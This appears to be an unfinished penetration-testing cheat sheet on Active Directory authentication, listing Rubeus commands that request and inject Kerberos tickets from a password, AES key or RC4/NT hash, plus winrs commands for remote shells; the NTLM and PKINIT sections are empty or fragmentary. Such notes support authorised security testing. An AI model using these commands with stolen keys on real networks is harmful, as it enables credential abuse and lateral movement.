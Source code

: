 # AD Authentication

## Kerberos authentication

### Authenticate with a password

Request TGT for a user and inject it:

```powershell
> Rubeus.exe asktgt /user:<username> /password:<password> /ptt
```

Open a new cmd session in the context of the authenticated user:

```powershell
> Rubeus.exe asktgt /user:<username> /pass:<password> /ptt /createnetonly:C:\Windows\System32\cmd.exe
```

### Authenticate with a key

It is possible sometimes to retrieve an AES-256 or AES-128 key. It is the long-term key that is being used for Kerberos authentication. It is hence possible to use this key to authenticate as the user and get a TGT:

```powershell
> Rubeus.exe asktgt /user:<username> /aes256:<key> /opsec /domain:<domain> /ptt
```

The same is possible with an RC4 key. This is the same as authenticating with a NT hash:

```powershell
> Rubeus.exe asktgt /user:<username> /rc4:<key> /opsec /domain:<domain> /ptt /force
```

## NTLM authentication

XXX



## PKINIT authentication

Authenticate with a certificate:a\`



## Tools

### WinRS

This opens a non-interactive session through WinRM. It works as Evil-WinRM on Linux:

```powershell
> winrs -r:server -u:.\local_user -p:<password> cmd
> winrs -r:server -u:domain_user -p:<password> cmd
```

If we have a TGT for a domain user, we skip the password option:

```powershell
> winrs -r:server -u:domain_user cmd
```
